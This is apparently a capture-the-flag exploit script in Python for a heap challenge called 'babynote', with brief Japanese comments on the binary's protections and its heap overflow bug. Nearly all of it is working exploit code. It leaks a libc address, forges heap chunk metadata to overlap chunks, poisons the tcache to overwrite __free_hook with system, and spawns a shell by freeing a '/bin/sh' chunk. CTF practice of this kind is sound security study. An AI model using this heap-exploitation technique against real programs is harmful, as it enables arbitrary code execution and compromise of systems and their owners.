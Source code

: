 ```python
def delete(s, idx):
    select(s, b"3")
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))
    

if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - 固定サイズmalloc (0x90)
        - free時にポインタは消される
        - heap overflowあり
    """
    libc = ELF("./libc-2.27.so")

    s = process("./babynote")
    s.recvuntil(b"HERE IS THE GIFT FOR YOU: ")
    libc_addr = int(s.recvline()[2:-1], 16) - libc.symbols["_IO_2_1_stdin_"]
    print(hex(libc_addr))

    create(s)  # 0
    create(s)  # 1
    create(s)  # 2
    create(s)  # 3

    delete(s, 0)
    _size = 0x500 - 0xa0 * 3
    payload = b"a" * 0x90 + p64(0xa0) + p64(0x501) + \
        b"/bin/sh\x00" + b"a" * 0x90 + p64(0xa1) + \
        b"/bin/sh\x00" + b"a" * 0x90 + p64(0xa1) + \
        b"/bin/sh\x00" + b"a" * 0x90 + \
        b"a" * (_size)
    double_fake = p64(0x21) + b"a" * 0x18 + p64(0x21)
    payload += double_fake
    create(s, payload)
    # _ = input()
    delete(s, 1)
    create(s)  # 1

    libc_leak = u64(show(s, 2)[:6].ljust(8, b"\x00")) - 0x3ebc40 - 0x60
    assert libc_addr == libc_leak

    create(s)  # 4
    delete(s, 4)
    delete(s, 2)
    create(s, p64(libc_leak + libc.symbols["__free_hook"]))  # 2
    create(s, b"/bin/sh\x00")  # 4
    create(s, p64(libc_leak + libc.symbols["system"]))  # 5

    delete(s, 4)

    s.interactive()

```
